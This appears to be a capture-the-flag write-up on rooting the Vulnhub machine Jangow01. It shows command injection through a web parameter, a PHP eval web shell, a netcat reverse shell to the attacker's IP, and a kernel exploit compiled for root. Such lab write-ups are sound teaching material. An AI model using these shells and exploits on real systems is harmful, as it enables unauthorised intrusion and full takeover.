










Challenge Overview
In this write-up I will walk you through the steps I had taken to obtain root access for the Jangow01 CTF on Vulnhub.
Reconnaissance
I started by running a netdiscover command to identify devices on the local network:
netdiscover -r 192.168.0.0/24
From the results, I located the victim machine. Validating it by navigating to 192.168.0.79 in my browser's URL field and confirmed it was hosting a website.
Since I do see that this is a web server, I will go ahead and move forward in my recon and nmap this domain by using the following command:
nmap -v -p- 192.168.0.79
The results revealed that ports 21 (FTP) and 80 (HTTP) were open.
Since my results from nmap were limited I will move forward in my recon and navigate through the website to see if anything specific stands out
While exploring the website, I discovered a URL parameter that allowed command injection:
http://192.168.0.79/site/busque.php?buscar=Using "ls" and "pwd", I navigated through the web servers directories:
http://192.168.0.79/site/busque.php?buscar=ls
http://192.168.0.79/site/busque.php?buscar=pwd 
After discovering the .backup file in the exposed directories, I extracted FTP credentials and logged into the server via my adversary machine.
Since the URL parameter is allowing me to insert command injections, I'm going to attempt to upload a shell
echo "<?php if (isset($_POST['cmd'])) { eval($_POST['cmd']); } >" > shell.php
Since no error came back I was able to successfully upload my file which I was able to validate by running the "ls" command and the shell.php file being in the directory
Now that I have the file on the web server, I will go ahead and get the shell running on my adversary machine via AntSword
Weaponization, Delivery, Exploitation, & Installation
Since I now have a shell via AntSword, I will move forward with my attack by adding a new file "rev.php"
In the rev.php files contents I will add a reverse shell to my adversary machine and send it to port 443
<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.0.215 443 > /tmp/f"); ?>
After navigating to http://192.168.0.79/site/rev.php, to send the signal to my adversary machine I captured the connection using:
nc -lvnp 443
Command & Control (C2)
After searching and identifying the OS as Ubuntu 16.04
\I use searchsploit to locate a local privilege escalation exploit:
searchsploit Ubuntu 16.04
After compiling and running the exploit, I gained root access:
gcc 45010.c -o exploit
chmod +x exploit
./exploit
Actions On Objectives
Conclusion
After locating that the URL parameter allows me to input command line injections and visibly see the results, I was able to upload a shell onto the server & then escalate my privileges to root. Once I have root privileges I have full access to the system. To mitigate this issue I would advise sanitizing the malicious characters in the URL parameter.
This falls under the A01 Broken Access Control category because I was able to modify the URL & escalate my privileges
